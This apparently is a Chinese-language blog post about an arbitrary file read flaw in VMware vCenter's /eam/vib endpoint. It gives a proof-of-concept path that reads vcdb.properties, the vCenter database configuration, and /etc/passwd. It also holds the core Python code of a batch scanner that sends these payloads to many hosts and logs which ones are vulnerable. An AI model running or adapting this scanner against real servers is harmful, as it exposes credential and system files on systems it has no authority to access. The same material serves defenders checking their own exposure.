

# Vmware Vcenter 任意文件读取批量检测

早上看到很多大佬发了该漏洞的概况，目前还没有CVE编号  

**背景**  
VMware vCenterServer 提供了一个可伸缩、可扩展的平台，为 虚拟化管理奠定了基础。VMware vCenter Server（以前称为 VMware VirtualCenter），可集中管理 VMware vSphere 环境，与其他管理平台相比，极大地提高了 IT 管理员对虚拟环境的控制。VMware vCenter Server：提高在虚拟基础架构每个级别上的集中控制和可见性，通过主动管理发挥 vSphere 潜能，是一个具有广泛合作伙伴体系支持的可伸缩、可扩展平台。

监测到twitter平台上，有人发出任意文件读取漏洞，目前暂未申请cve

**影响范围**  

6.5u1该漏洞被修复。

**PoC**
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties

**批量脚本核心代码**
备注：经验证有linux的环境，所以加了linux下的简单检测，payload通用

```python
payloads = [r'/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties',r'/eam/vib?id=/etc/passwd']
def http_request(url):
    try:
        print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
        for payload in payloads:
            vulurl = url + payload
            print(vulurl)
            r = requests.get(url=vulurl, timeout=10, verify= False)
            if r.status_code == 200 and ('driver' in r.text or 'root:' in r.text):
                print("\033[1;40;32m[Vuln] {}\033[0m".format(vulurl))
                with open(path_out,'a') as f:
                    f.write(vulurl + '\n')
                    return
            else:
                print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
    except Exception as err:
        print(err)
```

**检测结果**



原文链接：https://www.t00ls.net/thread-58294-1-1.html 

参考Twitter：https://twitter.com/ptswarm/status/1316016337550938122 

参考文章：https://blog.csdn.net/weixin_43650289/article/details/109066534

